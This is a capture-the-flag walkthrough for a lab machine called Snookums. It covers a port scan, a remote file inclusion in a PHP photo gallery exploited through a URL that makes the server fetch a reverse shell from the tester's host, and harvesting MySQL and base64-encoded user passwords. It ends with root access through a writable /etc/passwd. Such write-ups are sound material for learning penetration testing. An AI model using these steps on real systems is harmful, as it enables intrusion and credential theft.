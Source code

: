 # Snookums

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.197.58 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-04 22:49 +08
Warning: 192.168.197.58 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.197.58
Host is up (0.17s latency).
Not shown: 65484 filtered tcp ports (no-response), 43 closed tcp ports (conn-refused)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3306/tcp  open  mysql
33060/tcp open  mysqlx
```

Lots of ports open.

### PHP Gallery --> RFI + RCE

Port 80 was running a Simple PHP Photo Gallery instance:

<figure><img src="../../../.gitbook/assets/image (114).png" alt=""><figcaption></figcaption></figure>

This thing might be vulnerable to an RFI based on `searchsploit`:

```
$ searchsploit SimplePHP
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
FREEsimplePHPGuestbook - 'Guestbook.php' Remote Code Execu | php/webapps/7079.txt
SimplePHPGal 0.7 - Remote File Inclusion                   | php/webapps/48424.txt
```

The PoC is quite simple to test:

```
### Poc  :

[+]   site.com/image.php?img= [ PAYLOAD ]
```

And it does work since I can make the website send requests to my HTTP server:

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

To exploit this, we can just host a PHP reverse shell from PentestMonkey and make the website call it by visiting [http://192.168.197.58/image.php?img=http://192.168.45.177/rev.php](http://192.168.197.58/image.php?img=http://192.168.45.177/rev.php).

<figure><img src="../../../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### SQL Creds --> Michael Shell

Within the `/var/www/html` file, there's a `db.php` folder that contains MySQL credentials:

```
bash-4.2$ cat db.php 
<?php
define('DBHOST', '127.0.0.1');
define('DBUSER', 'root');
define('DBPASS', 'MalapropDoffUtilize1337');
define('DBNAME', 'SimplePHPGal');
?>
```

Using this, we can login using `mysql`:

```
bash-4.2$ mysql -u root -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 10
Server version: 8.0.20 MySQL Community Server - GPL

Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```

Within the MySQL database there were some credentials:

```
mysql> show tables;
+------------------------+
| Tables_in_SimplePHPGal |
+------------------------+
| users                  |
+------------------------+
1 row in set (0.00 sec)

mysql> select * from users
    -> ;
+----------+----------------------------------------------+
| username | password                                     |
+----------+----------------------------------------------+
| josh     | VFc5aWFXeHBlbVZJYVhOelUyVmxaSFJwYldVM05EYz0= |
| michael  | U0c5amExTjVaRzVsZVVObGNuUnBabmt4TWpNPQ==     |
| serena   | VDNabGNtRnNiRU55WlhOMFRHVmhiakF3TUE9PQ==     |
+----------+----------------------------------------------+
```

These are just  `base64` encoded strings, and we can easily find the cleartext passwords. `michael` is the only user within `/home`, so we can decode his password:

```
$ echo 'U0c5amExTjVaRzVsZVVObGNuUnBabmt4TWpNPQ==' | base64 -d | base64 -d
HockSydneyCertify123
```

Then, just use `su`:

<figure><img src="../../../.gitbook/assets/image (122).png" alt=""><figcaption></figcaption></figure>

Grab the user flag.

### Writeable /etc/passwd --> Root

`michael` owns `/etc/passwd`. This is findable by running `linpeas.sh`:

```
[michael@snookums ~]$ ls -la /etc/passwd
-rw-r--r--. 1 michael root 1162 Jun 22  2021 /etc/passwd
```

Using this, we can easily create a new root user.&#x20;

<figure><img src="../../../.gitbook/assets/image (163).png" alt=""><figcaption></figcaption></figure>

Rooted!
